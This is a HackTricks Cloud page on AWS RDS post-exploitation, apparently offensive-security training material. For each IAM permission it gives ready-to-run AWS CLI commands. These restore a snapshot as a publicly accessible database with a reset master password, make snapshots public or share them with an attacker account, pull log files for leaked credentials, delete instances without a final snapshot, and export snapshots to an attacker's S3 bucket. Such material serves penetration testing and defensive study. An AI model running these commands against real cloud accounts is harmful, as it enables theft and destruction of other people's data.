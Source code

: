 # AWS - RDS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS

For more information check:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

If the attacker has enough permissions, he could make a **DB publicly accessible** by creating a snapshot of the DB, and then a publicly accessible DB from the snapshot.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
    --db-instance-identifier <db-id> \
    --db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier "new-db-not-malicious" \
    --db-snapshot-identifier <scapshotId> \
    --db-subnet-group-name <db subnet group> \
    --publicly-accessible \
    --vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
    --db-instance-identifier "new-db-not-malicious" \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

An attacker with these permissions could **create an snapshot of a DB** and make it **publicly** **available**. Then, he could just create in his own account a DB from that snapshot.

If the attacker **doesn't have the `rds:CreateDBSnapshot`**, he still could make **other** created snapshots **public**.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

An attacker with the `rds:DownloadDBLogFilePortion` permission can **download portions of an RDS instance's log files**. If sensitive data or access credentials are accidentally logged, the attacker could potentially use this information to escalate their privileges or perform unauthorized actions.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Potential Impact**: Access to sensitive information or unauthorized actions using leaked credentials.

### `rds:DeleteDBInstance`

An attacker with these permissions can **DoS existing RDS instances**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Potential impact**: Deletion of existing RDS instances, and potential loss of data.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker with this permission can **export an RDS instance snapshot to an S3 bucket**. If the attacker has control over the destination S3 bucket, they can potentially access sensitive data within the exported snapshot.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Potential impact**: Access to sensitive data in the exported snapshot.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
